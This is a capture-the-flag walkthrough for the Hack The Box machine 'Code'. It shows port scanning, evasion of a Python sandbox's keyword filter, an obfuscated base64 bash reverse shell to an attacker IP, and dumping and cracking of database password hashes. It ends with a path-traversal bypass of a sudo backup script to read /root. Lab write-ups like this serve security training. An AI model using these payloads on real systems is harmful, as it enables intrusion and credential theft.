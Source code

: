 ```yaml
---
name: Code
difficulty: easy
os: linux
platform: htb

img: https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png
---
```



## Enumeration
### Port Scan
We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```
We can see that port 22 is open, which is the SSH service. 

Now we will scan for all tcp, open and filtered, ports
```bash
nmap -p- -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPortsFiltered
```
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63
```
We can see that port 5000 is also open.

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options
```bash
nmap -p 22,5000 -sCV 10.10.11.62 -o targeted
```
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5b97cc4503295bcc26517df51a27abd (RSA)
|   256 94b525549b68afbe40e11da86b850d01 (ECDSA)
|_  256 128cdc97ad8600b488e229cf69b56596 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User Exploitation

When accessing `http://10.10.11.62` it shows up a python code editor. We can create a new file and write some Python code in it. The web application allows us to execute the code we write.

We write the following Python code to do ls for `/` and `/home`:
```python
oas = sys.modules['o'+'s']
print(oas.listdir('.'))

print(oas.listdir('/'))
print(oas.listdir('/home')) 
#print(oas.listdir('/ro'+'ot'))
```
```
['app.py', 'static', 'templates', '__pycache__', 'instance'] 
['bin', 'lib64', 'proc', 'run', 'sbin', 'usr', 'lib32', 'home', 'var', 'srv', 'libx32', 'boot', 'tmp', 'lost+found', 'lib', 'root', 'sys', 'media', 'mnt', 'etc', 'dev', 'opt'] 
['martin', 'app-production'] 
```
Note that the system blocks some strings like `os`, `import` or `root` in the code editor, so we have to use other ways to access the modules and directories.
As we can see, we can find the home directory of the user `martin` and the `app-production` directory. We do not have access to `/root`

We dont have access to `/home/martin`

We can do ls on the `app-production` directory:
```python
oas = sys.modules['o'+'s']
print(oas.listdir('/home/app-production'))
```
```
['user.txt', '.local', '.sqlite_history', '.profile', '.python_history', '.cache', '.bash_logout', '.bash_history', '.bashrc', 'app'] 
```
We can see that we have a file called `user.txt` in the `app-production` directory. We can read it using the following code:
```python
wd = sys.modules['subpr'+'ocess']
output = wd.check_output(['cat', '/home/app-production/user.txt'])
print(output.decode())
```
```
user flag value
```

## Machine Access
We can access the machine using a reverse shell. We can use the following Python code
```python
a = sys.modules['subp' + 'rocess']
output = a.check_output('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42O' +
                         'S80NDQ0IDA+JjE= | base64 -d | bash', shell=True)
print(output.decode())
```
This code will execute a reverse shell command that connects back to our machine. Make sure to set
up a listener on your machine to catch the reverse shell
```bash
nc -lvnp 4444
```
Once we have a reverse shell, we can get a persistent shell by using the following commands on the reverse shell
```bash
script /dev/null -c /bin/bash
CONTROL-Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```
We can access the web page source code at app.py and we find credentials for database:
```python
app.config['SECRET_KEY'] = "7j4D5htxLHUiffsjLXB1z9GaZ5"
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
```
We also see that there is a table called `USER` in the database. We can use the credentials to access the database and retrieve the user information.
We can use the `sqlite3` command-line tool to access the SQLite database. 
```bash
sqlite3 instance/database.db "SELECT * FROM USER;"
```
```
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|test|c06db68e819be6ec3d26c6038d8e8d1f
```
We can see that there are three users in the database: `development`, `martin`, and `test`. It looks like the passwords are hashed.
We can use `https://crackstation.net/` to crack the hashes. After cracking the hashes, we find the following credentials:
```
development:development
martin:nafeelswordsmaster
test:test12345
```
This allows us to access the machine as the user `martin` with the password `nafeelswordsmaster` through SSH.
```bash
ssh martin@10.10.11.62
```

## Root Exploitation
Once we have access to the user `martin`, we can check what sudo privileges the user has. 
```bash
sudo -l
```
```
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
As we can see, the user `martin` has the ability to run the script `/usr/bin/backy.sh` as root without a password. We can check the contents of the script to see if it is vulnerable or misconfigured.

This script is a script that backups a directory. We can pass as parameter this json configuration file
```
{
  "destination": "/home/martin/test/",
  "multiprocessing": true,
  "verbose_log": true,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": [
    "test"
  ]
}
```
Note that the `directories_to_archive` field contains a path to `/var/....//root`, because the script removes al `../` from the path, it will end up being `/var/../root`, which is the root directory `/root`. 

And then run the script as root:
```bash
sudo /usr/bin/backy.sh /home/martin/task.json'
```

It will create a backup of the `/root` directory in the `/home/martin/test/` directory. We can extract the backup and find the root flag:
```bash
tar -xvjf code_var_.._root_2025_July.tar.bz2 
cat root/root.txt
```
```
root flag value
```

## Conclusion
This walkthrough demonstrates how to exploit a vulnerable web application to gain access to the user and root flags. We used Python code execution to read files and execute commands, and we exploited a misconfigured backup script to gain root access. This highlights the importance of secure coding practices and proper configuration management in web applications.
This walkthrough is for educational purposes only. Always ensure you have permission to test and exploit systems.